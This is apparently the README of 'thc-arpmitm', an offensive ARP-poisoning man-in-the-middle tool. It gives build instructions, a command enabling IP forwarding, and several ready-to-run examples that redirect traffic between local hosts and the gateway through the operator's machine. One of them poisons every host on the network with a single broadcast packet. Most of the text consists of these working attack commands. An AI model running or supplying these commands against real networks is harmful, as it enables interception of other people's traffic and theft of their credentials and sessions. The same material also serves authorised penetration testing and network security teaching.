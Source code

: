 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).

**Install:**
```
$ ./configure --enable-static
$ make all
```

Make sure IP Forwarding is enabled:
```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

**Example 1:**
```
# ./thc-arpmitm -t 10.0.1.111.
```
The above redirects all traffic between 10.0.1.111 and the Internet through your computer.

**Example 2:**
```
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```
A classic redirect. The above redirects all traffic between 10.0.1.254 and 10.0.1.111 through your computer. Where 10.0.1.254 is the default gateway then this makes it identical to Example 1. Example 1 finds out all the MAC's automatically.

**Example 3:**
```
# ./thc-arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```
The above will use 1 broadcast packet to tell *everyone* that 10.0.1.254 is you now.

**Example 4 the bold:**
```
# ./thc-arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```
The above will redirect all local traffic between the 4 hosts through your computer.

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM

